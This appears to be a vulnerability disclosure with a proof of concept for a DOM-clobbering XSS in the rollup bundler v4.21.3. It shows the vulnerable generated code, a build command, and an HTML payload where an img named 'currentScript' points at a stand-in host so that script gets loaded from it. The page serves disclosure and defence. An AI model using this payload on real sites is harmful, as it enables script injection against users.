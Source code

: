 ## rollup

### Meta

+ Library: rollup
+ Version: v4.21.3
+ Stars: 25.2K
+ Payload: ```<img src="https://xxx.xxx.xxx" name="currentScript">```
+ Impact: XSS
+ CVE: 2024-CVE-XXXXX
+ Status: Fixed
+ Foundby: TheHulk

### Library

URL: https://github.com/rollup/rollup

Bundlers run locally

### Vulnerable Code Snippet

```javascript
var _documentCurrentScript = typeof document !== 'undefined' ? document.currentScript : null;
var s = document.createElement('script');
s.src = (typeof document === 'undefined' ? require('u' + 'rl').pathToFileURL(__filename).href : (_documentCurrentScript && _documentCurrentScript.src || new URL('bundle.js', document.baseURI).href)) + 'extra.js';
document.head.append(s);
```

## PoC

as an example, bundle the js below: `rollup main.js --format cjs --file bundle.js`.

```javascript
var s = document.createElement('script')
s.src = import.meta.url + 'extra.js'
document.head.append(s)
```

example html:

<!-- ```html
<img name="currentScript" src="//xxx.xxx.xxx"></img>
<script src="dist/index.js"></script>
``` -->

```html
<!--Library-->
<script src="bundle.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="//localhost:9999"></img>
<!--Payload-->
```

